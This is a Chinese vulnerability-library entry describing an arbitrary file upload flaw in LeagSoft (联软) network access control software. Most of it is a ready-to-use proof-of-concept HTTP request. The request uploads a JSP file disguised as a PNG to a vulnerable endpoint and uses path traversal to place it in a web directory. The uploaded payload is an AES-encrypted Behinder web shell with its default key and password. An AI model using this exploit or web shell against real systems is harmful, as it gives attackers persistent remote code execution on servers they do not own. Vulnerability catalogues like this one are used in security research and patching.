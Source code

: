```yaml
---
title: '联软准入-任意文件上传'
date: Sun, 13 Sep 2020 09:14:39 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


#### 界面

![](https://www.bylibrary.cn/wp-content/uploads/2020/09/11.png)

#### POC

```
POST /uai/download/uploadfileToPath.htm HTTP/1.1
HOST: xxxxx
... ...

-----------------------------570xxxxxxxxx6025274xxxxxxxx1
Content-Disposition: form-data; name="input_localfile"; filename="xxx.jsp"
Content-Type: image/png

<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%if (request.getMethod().equals("POST")){String k="e45e329feb5d925b";/*该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond*/session.putValue("u",k);Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec(k.getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);}%>

-----------------------------570xxxxxxxxx6025274xxxxxxxx1
Content-Disposition: form-data; name="uploadpath"

../webapps/notifymsg/devreport/
-----------------------------570xxxxxxxxx6025274xxxxxxxx1-- 
```![](https://www.bylibrary.cn/wp-content/uploads/2020/09/12.png) ![](https://www.bylibrary.cn/wp-content/uploads/2020/09/13.png)